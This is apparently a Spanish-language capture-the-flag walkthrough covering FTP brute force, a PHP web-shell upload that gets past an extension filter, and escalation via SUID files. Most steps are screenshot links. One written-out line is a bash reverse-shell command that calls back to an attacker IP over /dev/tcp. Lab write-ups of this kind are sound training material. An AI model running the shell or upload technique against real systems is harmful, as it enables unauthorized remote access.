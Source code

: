 ## Fuzzing FTP
En su `/etc/passwd` podemos ver el usuario del que se hablava en el comentario anterior:
![[Pasted image 20240819223920.png]]

Por lo que podemos probar a hacer fuerza bruta por FTP con el usuario "ftpUserULTRA".

Después de hacer fuerza bruta por horas 💀 obtenemos la siguiente contraseña "bankbank":
![[Pasted image 20240820005946.png]]

## RCE
Por lo que accedemos por FTP a la máquina y probamos de subir un archivo cmd.php que permita la ejecución de comandos, pero no podemos:
![[Pasted image 20240819232749.png]]

Si lo subimos sin extensión si nos deja:
![[Pasted image 20240819232826.png]]

Por lo que podemos probar de cambiar el nombre con *rename*:
![[Pasted image 20240819232908.png]]

Pero no nos deja por lo que probamos con otras extensiones php:
![[Pasted image 20240819232946.png]]

Si vemos los permisos no se permite la ejecución:
![[Pasted image 20240819233034.png]]

Por lo que damos permisos de ejecución con *chmod*:
![[Pasted image 20240819233125.png]]

Por lo que si accedemos al archivo podemos ver como el código PHP se interpreta y tenemos RCE:
![[Pasted image 20240819233306.png]]

Así que entablamos una *reverse* *shell* con el comando:
```bash
bash -c "bash -i >& /dev/tcp/192.168.1.21/443 0>&1"
```
![[Pasted image 20240819233446.png]]

Y hacemos el tratamiento de la tty:
![[Pasted image 20240819233710.png]]
![[Pasted image 20240819233817.png]]


## Escalada de privilegios
### Escalada al usuario "le"
Si buscamos por archivos SUID podemos encontramos:
![[Pasted image 20240819234008.png]]
